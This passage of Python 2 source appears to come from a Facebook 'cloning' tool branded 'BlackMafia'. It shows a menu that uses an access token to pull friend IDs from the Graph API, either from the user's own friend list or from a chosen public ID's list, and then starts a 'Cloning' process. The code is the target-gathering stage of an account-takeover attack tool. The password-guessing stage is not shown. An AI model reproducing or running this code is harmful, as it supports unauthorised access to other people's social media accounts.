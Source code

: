 	print "\033[1;97m-•◈•-\033[1;91m> \033[1;91m2.\x1b[1;95mClone Friend List Public ID."
	print "\033[1;97m-•◈•-\033[1;91m> \033[1;91m0.\033[1;91mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mAziz\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
		jalan('\033[1;91mGetting IDs \033[1;91m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;95m[•◈•] \033[1;91mEnter ID\033[1;95m: \033[1;95m")
		print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91mName\033[1;95m:\033[1;95m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
			super()
		print"\033[1;91mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;95mTotal IDs\033[1;91m: \033[1;95m"+str(len(id))
	jalan('\033[1;91mPlease Wait\033[1;94m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;95mCloning\033[1;91m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;91m«--•◈••◈•---\x1b[1;95m•◈•Stop Process Press CTRL+Z•◈•\033[1;91m---•◈••◈•-»"
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	jalan(' \033[1;91m.................\033[1;95mCloning Start..\033[1;91m............ ')
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	
